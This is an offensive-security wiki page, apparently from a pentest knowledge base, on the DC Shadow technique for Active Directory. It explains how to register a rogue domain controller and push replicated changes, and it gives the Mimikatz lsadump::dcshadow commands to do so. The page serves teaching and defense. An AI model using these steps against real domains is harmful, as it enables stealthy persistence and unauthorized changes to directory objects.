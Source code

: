 ```yaml
---
description: They told me I could be anything I wanted ... So I became a domain controller
---
```


# DC Shadow

## Theory

The idea behind this persistence technique is to have an attacker-controlled machine act as a domain controller (shadow DC) to push changes onto the domain by forcing other domain controllers to replicate.

There are two requirements for a machine to act as a domain controller:

1. **Be registered as a DC in the domain**: this is done by&#x20;
   1. modifying the computer's SPN (`ServicePrincipalName`) to `GC/$HOSTNAME.$DOMAIN/$DOMAIN`
   2. adding an entry like `CN=$HOSTNAME,CN=Servers,CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=$DOMAIN` with the following attribute values:
      * `objectClass: server`
      * `dNSHostName: $HOSTNAME.$DOMAIN`
      * `serverReference: CN=$HOSTNAME,CN=Computers,DC=$DOMAIN`
2. **Be able to request and/or respond to specific RPC calls**: `DRSBind`, `DRSUnbind`, `DRSCrackNames,` `DRSAddEntry`, `DRSReplicaAdd`, `DRSReplicaDel`, `DRSGetNCChanges`.

Below is the attack workflow (step 1 & 2 can be switched if need be):

1. Register the workstation that will act as the shadow DC
   1. add the required entry in `CN=Configuration`
   2. modify the workstation's SPN
2. Prepare the changes to be pushed onto the domain (with calls to `DRSAddEntry`)
3. Push the changes by forcing another legitimate DC to replicate from the workstation with a `DRSReplicaAdd` call, which automatically makes a `DRSGetNCChanges` call from the legitimate DC to the shadow DC.
4. Unregister the workstation so it is not longer considered to be a DC (by a `DRSReplicaDel` call and by reverting changes made to `CN=Configuration` and the workstation's SPN).&#x20;

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption><p>(step 1.1) add the entry to <code>CN=Configuration</code></p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption><p>(step 1.2) modify the workstation's SPN</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption><p>An example of DRSUAPI traffic for a successful DC Shadow attack </p></figcaption></figure>

It is important to note that this technique can be used as a "meta" one, in the sense that it permits to use other persistence techniques, such as [sid-history.md](sid-history.md "mention") , [delegation-to-krbtgt.md](kerberos/delegation-to-krbtgt.md "mention") and even [access-controls.md](access-controls.md "mention").

For instance, a DC Shadow attack can be conducted to register a controlled workstation as a domain controller, and then use that to push changes to the domain that would expose it to DACL abuse.

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption><p>"leHack 2023 - Un conseil, brûlez tout" by Charlie Bromberg and Volker Carstein</p></figcaption></figure>

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
{% hint style="danger" %}
_July 27th 2023_ : There is currently no way to exploit this technique purely from a distant UNIX-like machine, as it requires some tools that have yet to be made.
{% endhint %}
{% endtab %}

{% tab title="Windows" %}
DC Shadow can be performed by using Mimikatz. It works in every 64-bits Windows Server version up to 2022 (included). Everything happens on the workstation that will act as the shadow DC.

Two Mimikatz shells are required:

* one with domain admin privileges (called the **trigger shell** from now on)
* one as `NT-AUTHORITY\SYSTEM` (called the **RPC shell** from now on)

### Preparing shells

{% code overflow="wrap" %}
```
# In a mimikatz shell, launched with DA rights
# This will be the trigger shell
privilege::debug

# The following command will open a new mimikatz shell as NT-AUTHORITY\SYSTEM
# This will be the RPC shell
process::runp

# On both shell, run the following command to confirm permissions
# On the trigger shell, it will return the domain admin account name (used to lauch the first mimikatz shell)
# On the RPC shell, it will return NT-AUTHORITY\SYSTEM
token::whoami
```
{% endcode %}

### Preparing changes to push

{% code overflow="wrap" %}
```
# (RPC shell)
lsadump::dcshadow /object:ObjectToModify /attribute:AttributeToModifyOnTargetedObject /value:NewValueOfTargetedAttribute
```
{% endcode %}

### Pushing changes

{% code overflow="wrap" %}
```
# (Trigger shell)
# The command below will register the shadow DC, push the changes, and unregister
lsadump::dcshadow /push
```
{% endcode %}

See the [`lsadump::dcshadow`](https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcshadow) at The Hacker Tools for more info.
{% endtab %}
{% endtabs %}

## Talk

{% file src="../../.gitbook/assets/LeHack 2023 - Un conseil, brulez tout.pdf" %}

## Resources

{% embed url="https://www.dcshadow.com/" %}

{% embed url="https://tools.thehacker.recipes/mimikatz/modules/lsadump/dcshadow" %}

{% embed url="https://stealthbits.com/blog/creating-persistence-dcshadow/" %}

{% embed url="https://blog.netwrix.com/2022/09/28/dcshadow_attack/" %}

{% embed url="https://www.netwrix.com/how_dcshadow_persistence_attack_works.html" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/d2435927-0999-4c62-8c6d-13ba31a52e1a" %}

{% embed url="https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47" %}

